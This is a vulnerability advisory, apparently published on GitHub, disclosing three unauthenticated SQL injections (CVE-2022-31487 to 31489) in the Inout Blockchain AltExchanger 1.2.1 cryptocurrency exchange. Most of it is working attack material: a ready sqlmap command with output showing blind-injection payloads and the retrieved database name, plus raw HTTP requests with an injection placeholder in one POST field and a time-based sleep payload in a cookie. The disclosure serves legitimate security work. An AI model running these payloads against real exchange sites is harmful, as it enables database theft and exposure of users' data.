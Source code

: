 # Information
```
Vulnerability Name  : Multiple Remote SQL Injections in Inout Blockchain AltExchanger
Product             : Inout Blockchain AltExchanger
version             : 1.2.1
Date                : 2022-05-21
Vendor Site         : https://www.inoutscripts.com/products/inout-blockchain-altexchanger/
Exploit Detail      : https://github.com/bigb0x/CVEs/Blockchain-AltExchanger-121-sqli.md
CVE-Number          : CVE-2022-31487, CVE-2022-31488, CVE-2022-31489
Exploit Author      : Mohamed N. Ali @MohamedNab1l
```
<br>

# Description
<br>

Three SQL injections have been discovered in Blockchain AltExchanger cryptocurrency exchange platform v1.2.1. This will allow remote non-authenticated attackers to inject SQL code. This could result in full information disclosure.
<br>

## 1- Vulnerable Parameter: symbol (GET)

<br>

Vulnerability File: /application/third_party/Chart/TradingView/chart_content/master.php

<br>

### Sqlmap command:
`
python sqlmap.py -u "http://vulnerable-host.com/application/third_party/Chart/TradingView/chart_content/master.php/history?from=1652650195&resolution=5&symbol=BTC-BCH" -p symbol --dbms=MySQL --banner --random-agent --current-db
`
<br>

### output:
`
Parameter: symbol (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: from=1652650195&resolution=5&symbol=BTC-BCH') AND 7820=7820 AND ('HqKC'='HqKC

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: from=1652650195&resolution=5&symbol=BTC-BCH') AND (SELECT 1060 FROM (SELECT(SLEEP(5)))WJpc) AND ('rQoO'='rQoO
[16:43:22] [INFO] testing MySQL
[16:43:23] [INFO] confirming MySQL
[16:43:26] [INFO] the back-end DBMS is MySQL
[16:43:26] [INFO] fetching banner
[16:43:26] [INFO] resumed: 5.6.50
web application technology: PHP 7.0.33
back-end DBMS: MySQL >= 5.0.0
banner: '5.6.50'
[16:43:26] [INFO] fetching current database
[16:43:26] [INFO] retrieved: inout_blockchain_altexchanger_db
current database: 'inout_blockchain_altexchanger_db'
`
<br>
<img src="./resources/Blockchain-AltExchanger-121-sqli-1.png">
<br>

## 2- Vulnerable Parameter: marketcurrency (POST)

<br>

Vulnerability File: /index.php/coins/update_marketboxslider

<br>

### HTTP Request:
----------------------------------------------------
`
POST /index.php/coins/update_marketboxslider HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://vulnerable-host.com/
Cookie: inoutio_language=4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
Content-Length: 69
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
Host: vulnerable-host.com
Connection: Keep-alive
displaylimit=4&marketcurrency=-INJEQT-SQL-HERE
`
----------------------------------------------------

<br>

## 3- Vulnerable Parameter: Cookie: inoutio_language (GET)

<br>

Vulnerability File: /index.php

<br>

### HTTP Request:
----------------------------------------------------
`
GET /index.php/home/about HTTP/1.1
Referer: https://www.google.com/search?hl=en&q=testing
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
x-requested-with: XMLHttpRequest
Cookie: inoutio_language=0'XOR(if(now()=sysdate()%2Csleep(6)%2C0))XOR'Z
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
Host: vulnerable-host.com
Connection: Keep-alive
`
----------------------------------------------------

<br>

## Timeline
```
2022-05-03: Discovered the bug
2022-05-03: Reported to vendor
2022-05-21: Advisory published
```

<br>

## Discovered by
```
Mohamed N. Ali
@MohamedNab1l
ali.mohamed{at}gmail.com

```
